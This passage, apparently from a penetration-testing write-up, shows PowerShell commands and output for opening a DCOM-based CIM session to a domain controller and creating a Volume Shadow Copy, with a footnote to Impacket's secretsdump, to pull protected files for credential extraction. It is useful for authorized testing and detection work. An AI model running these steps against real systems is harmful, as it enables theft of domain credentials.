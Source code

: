```powershell
PS C:\> $h = 'DC01.mydomain.local'
PS C:\> $so = New-CimSessionOption -Protocol Dcom
PS C:\> $s = New-CimSession -ComputerName $h -SessionOption $so
```

# Create shadow copy
Once the session is established we invoke the `Create` function of the `Win32_ShadowCopy` WMI class [^1] providing the `Volume` parameter to create a shadow copy of the Windows installation drive which contains the files we want to obtain. Once executed, The `ReturnValue` of `0` shows that creation of the shadow copy was successful. Based on the `ShadowID` we fetch all details of the shadow copy. An alternative to creating a new shadow copy would be to check if there are already any (recent) shadow copies, in which case you can simply use that shadow copy and proceed with the next steps. This can be done by executing the `Get-CimInstance` cmdlet below without the `-Filter` parameter.

```powershell
PS C:\> $r = Invoke-CimMethod -ClassName Win32_ShadowCopy -MethodName Create -Arguments @{Volume='C:\'} -CimSession $s
PS C:\> $r | fl


ReturnValue    : 0
ShadowID       : {B15008D8-0C63-468C-AED7-ED4DB0CFD082}
PSComputerName : DC01.mydomain.local

 
PS C:\> $c = Get-CimInstance -ClassName Win32_ShadowCopy -CimSession $s -Filter "ID=`"$($r.ShadowID)`""
PS C:\> $c
 
 
Caption            :
Description        :
InstallDate        : 4/19/2020 9:34:01 PM
Name               :
Status             :
ClientAccessible   : True
Count              : 1
DeviceObject       : \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy6
Differential       : True
ExposedLocally     : False
ExposedName        :
ExposedPath        :
ExposedRemotely    : False
HardwareAssisted   : False
ID                 : {B15008D8-0C63-468C-AED7-ED4DB0CFD082}
Imported           : False
NoAutoRelease      : True
NotSurfaced        : False
NoWriters          : True
OriginatingMachine : DC01.mydomain.local
Persistent         : True
Plex               : False
ProviderID         : {B5946137-7B9F-4925-AF80-51ABD60B20D5}
ServiceMachine     : DC01.mydomain.local
SetID              : {083BBDBA-4517-45A2-A62E-3F52020BC47C}
State              : 12
Transportable      : False
VolumeName         : \\?\Volume{482bdb36-8a72-40a4-9b12-912d2783ef39}\
PSComputerName     : DC01.mydomain.local
```


[^1]: [Microsoft Docs - Create method of the Win32_ShadowCopy class](https://docs.microsoft.com/en-us/previous-versions/windows/desktop/vsswmi/create-method-in-class-win32-shadowcopy)
[^2]: [secretsdump.py in the Impacket library repository](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py)
